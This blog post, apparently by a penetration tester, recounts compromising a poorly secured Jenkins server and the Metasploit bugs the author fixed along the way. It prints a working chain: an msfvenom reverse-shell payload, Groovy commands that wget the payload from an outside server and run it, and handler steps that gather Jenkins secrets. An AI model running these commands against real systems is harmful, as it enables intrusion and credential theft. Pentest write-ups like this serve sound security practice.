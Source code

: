 ```yaml
---
layout: post
title: "Attacking a temperamental ten-year-old Jenkins server"
author: "Joshua Rogers"
categories: security
---
```


During my pen-testing, I've found it quite common to find Jenkins instances which either have open registration, or an easy-to-guess login combination.
Jenkins has functionality that allows users to execute Groovy script via its [/script/ endpoint](https://www.jenkins.io/doc/book/managing/script-console/).
If this is not secured, an attacker can execute system commands on the Jenkins server, decrypt passwords, and steal keys.

The easiest way to exploit this is to use Metasploit's `exploit/multi/http/jenkins_script_console` module to gain an initial shell, and then `post/multi/gather/jenkins_gather`, to dump all of the passwords and keys.
The general method is outlined in the [documentation for the script](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/jenkins_gather.md#verification-steps).

On my most recent encounter with this, the `jenkins_script_console` module refused to work for some reason.

Instead of using the typical `jenkins_script_console` script, instead I prepared a reverse shell payload myself, using Metasploit's `msfvenom`.
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.3 LPORT=4444 -f elf -o /tmp/payload.bin
```

I then uploaded payload.bin to my web-server, to be downloaded later on on the Jenkins server.

Back on my host, I run `msfconsole`, and use the following:

```ruby
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/shell_reverse_tcp
PAYLOAD => linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
```

On the Jenkins instance, I ran the following groovy code:
```groovy
"wget http://joshua.hu/payload.bin -O /tmp/".execute().text
"chmod +x /tmp/payload.bin".execute().text
"/tmp/payload.bin".execute().text
```

The connection with the Metasploit module is made, we background the session, and then we use the jenkins_gather 
```ruby
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.4:27468) at 2023-02-22 01:10:28 +0000

^Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/gather/jenkins_gather
msf6 post(multi/gather/jenkins_gather) > set SESSION 1
SESSION => 1
msf6 post(multi/gather/jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...

[-] No Jenkins installation found or readable, exiting...
```

Aaaand it failed. What?
As it turns out, the server Jenkins was running on had a nearly full disk, and the hardware was over a decade old. The kernel was from 2014!

In order for the Metasploit module to determine where secrets are kept, `find / -name 'secret.key.not-so-secret'` is run, with a 120-second timeout.
On this server, the `find` command was taking over two minutes, and even though I knew where the secrets were stored, I couldn't force the module to use it. The other pitfall was that even if `find` did find the correct folder, it did not halt searching the drive after the first result; it would just time-out, due to the nearly-full drive.

I made a patch to add an optional variable that instructs the module to use a specific directory for the secrets, [metasploit-framework/pull/17681](https://github.com/rapid7/metasploit-framework/pull/17681).

Then, I ran into more trouble:
```ruby
[-] Post failed: NoMethodError undefined method `empty?' for nil:NilClass
[-] Call stack:
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:235:in `block in pretty_print_gathered'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:231:in `each'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:231:in `pretty_print_gathered'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:348:in `gathernix'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/jenkins_gather.rb:363:in `run'
```

A bug in the jenkins_gather script meant that a (valid) empty SSH key would cause the script to crash. I pushed [metasploit-framework/pull/17416](https://github.com/rapid7/metasploit-framework/pull/17416) to fix that one, too.

